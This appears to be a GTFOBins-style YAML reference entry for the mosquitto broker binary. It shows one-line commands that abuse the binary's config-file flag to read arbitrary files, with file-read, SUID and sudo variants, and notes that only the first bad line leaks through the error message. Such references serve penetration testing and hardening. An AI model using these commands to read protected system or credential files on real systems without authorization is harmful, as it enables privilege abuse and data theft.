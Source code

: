 description: The file is actually parsed and the first wrong line (ending with a newline or a null character) is returned in an error message, thus it may not be suitable for reading arbitrary files
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        mosquitto -c "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./mosquitto -c "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo mosquitto -c "$LFILE"
---
